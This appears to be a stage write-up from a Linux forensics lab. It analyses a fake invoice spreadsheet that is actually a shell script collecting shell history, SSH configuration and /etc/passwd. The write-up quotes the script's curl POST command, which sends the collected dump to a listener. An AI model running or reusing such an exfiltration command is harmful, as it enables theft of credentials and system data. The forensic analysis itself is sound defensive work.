

# Stage 04: Suspicious Attachment Analysis (`invoice_Q1_2075.ods`)

## 1. Investigation Objective
Inspect `invoice_Q1_2075.ods` inside `j.morgan`'s `Documents/Invoices/` directory to determine whether it was a legitimate spreadsheet or a malicious payload.

## 2. Evidence Examined
* `/home/j.morgan/Documents/Invoices/invoice_Q1_2075.ods`

## 3. Linux Commands Used
```bash
cd /home/j.morgan/Documents/Invoices/
cat invoice_Q1_2075.ods
```

## 4. What I Observed
Reading the raw file contents showed that `invoice_Q1_2075.ods` contained embedded shell commands rather than normal spreadsheet XML data. The script:
1. Set `OUT="/tmp/invoice_dump.txt"`.
2. Appended recent shell history, active user sessions (`who`), SSH configurations, and `/etc/passwd` entries into `$OUT`.
3. Included an outbound HTTP POST command targeting an external listener:
   ```bash
   curl -X POST -F "data=@$OUT" http://192.168.0.100:8080/collect.php
   ```

## 5. How I Interpreted the Evidence
This directly explained how `/tmp/invoice_dump.txt` was created. The file was crafted as a malicious lure document designed to harvest local reconnaissance artifacts and transmit them to `192.168.0.100:8080/collect.php`.

## 6. Screenshot of the Actual Investigation


## 7. What the Finding Established
Confirmed `invoice_Q1_2075.ods` as the reconnaissance payload responsible for generating `/tmp/invoice_dump.txt` and pointed back to `j.morgan`'s email inbox to find how the file arrived.
